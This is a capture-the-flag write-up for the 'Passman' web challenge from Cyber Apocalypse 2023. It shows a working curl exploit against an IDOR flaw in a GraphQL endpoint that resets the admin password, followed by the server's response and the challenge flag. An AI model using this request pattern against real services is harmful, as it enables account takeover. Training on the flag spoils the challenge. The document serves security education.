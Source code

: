 # Cyber Apocalypse 2023

## Passman

> Pandora discovered the presence of a mole within the ministry. To proceed with caution, she must obtain the master control password for the ministry, which is stored in a password manager. Can you hack into the password manager?
>
>  Readme Author: [D13David](https://github.com/D13David)
>
> [`web_passman.zip`](web_passman.zip)

Tags: _web_

## Solution
While inspecting the source code we can find a weak graphql endpoint that allows to change user data for any user. The endpoint is only available for authenticated users but creating a new user is easily done.

![createuser](image001.png)

After this we can take the session id of the newly created user to send a update call to the `graphql` endpoint.

```
$ curl -X POST -H "Content-Type:application/json" -d '{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }","variables":{"username":"admin","password":"test"}}' --cookie "session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJpc19hZG1pbiI6MCwiaWF0IjoxNjc5NTc0ODk0fQ.mOgumzswX-rEm9_222nfGZ__ur29vovSQT3jrYLj_us" http://104.248.169.117:30
522/graphql
{"data":{"UpdatePassword":{"message":"Password updated successfully!","token":null}}}
```

Now admins password is set to `test` we can login as `admin` and retrieve the flag.
![flag](image002.png)

## Flag
HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}